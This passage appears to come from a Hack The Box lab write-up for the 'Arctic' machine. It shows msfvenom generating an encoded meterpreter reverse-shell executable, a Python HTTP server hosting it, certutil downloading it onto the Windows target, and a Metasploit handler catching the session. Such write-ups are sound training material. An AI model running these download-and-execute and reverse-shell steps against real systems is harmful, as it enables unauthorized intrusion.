```powershell
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 Mandatory group, Enabled by default, Enabled group
```

## SeImpersonatePrivilege Privilege Escalation

Generate meterpreter reverse shell to get a stable shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -e x86/shikata_ga_nai -i 3 -f exe -o rs.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 73802 bytes
Saved as: rs.exe

┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo python3 -m http.server 80                                           
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [21/Apr/2021 17:53:36] "GET /rs.exe HTTP/1.1" 200 -
10.10.10.11 - - [21/Apr/2021 17:53:40] "GET /rs.exe HTTP/1.1" 200 -
```

Download the binary and catch the reverse shell:

```powershell
PS C:\ColdFusion8\runtime\bin> certutil -urlcache -f http://10.10.14.14/rs.exe rs.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\ColdFusion8\runtime\bin> .\rs.exe
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo msfconsole -q                                                       
[sudo] password for kali: 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.14
lhost => 10.10.14.14
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:443 
[*] Sending stage (175174 bytes) to 10.10.10.11
[*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.11:49687) at 2021-04-21 17:54:27 -0400

meterpreter > getuid
Server username: ARCTIC\tolis
```
